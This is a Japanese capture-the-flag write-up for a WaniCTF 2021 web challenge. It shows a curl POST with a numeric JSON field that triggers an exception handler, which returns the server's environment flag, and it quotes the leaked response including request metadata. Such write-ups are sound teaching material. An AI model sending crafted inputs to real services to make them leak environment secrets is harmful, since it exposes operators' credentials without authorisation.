 # exception
## Wanictf 2021 spring
## Web
***
問題としてURLとサーバのプログラムが渡される。  
プログラムを読むと、例外が発生したとき、
>  "flag": os.environ.get("FLAG"),

というプログラムが走り、フラグが得られそうということがわかる。
プログラムではstring以外を受け取る例外が発生するので、数値データを渡してやればいい。また
> data = json.loads(event["body"])

とあるため、json形式でデータを送ってやる必要がある。  
というわけで、curlを使ってアクセスしてみる。  
今回はWSLからアクセスする。
> curl -X POST https://cf-basic.web.wanictf.org/hello -d '{"name":1}'

とすると以下の出力が返ってきた。  
> 前略  
Id": null, "caller": null, "sourceIp": "221.115.151.149", "principalOrgId": null, "accessKey": null, "cognitoAuthenticationType": null, "cognitoAuthenticationProvider": null, "userArn": null, "userAgent": "Amazon CloudFront", "user": null}, "domainName": "boakqtdih8.execute-api.us-east-1.amazonaws.com", "apiId": "boakqtdih8"}, "body": "{\"name\":1}", "isBase64Encoded": false}, "flag": "FLAG{b4d_excep7ion_handl1ng}"}

一番最後にフラグが帰ってきていることが分かる。これをsubmitする。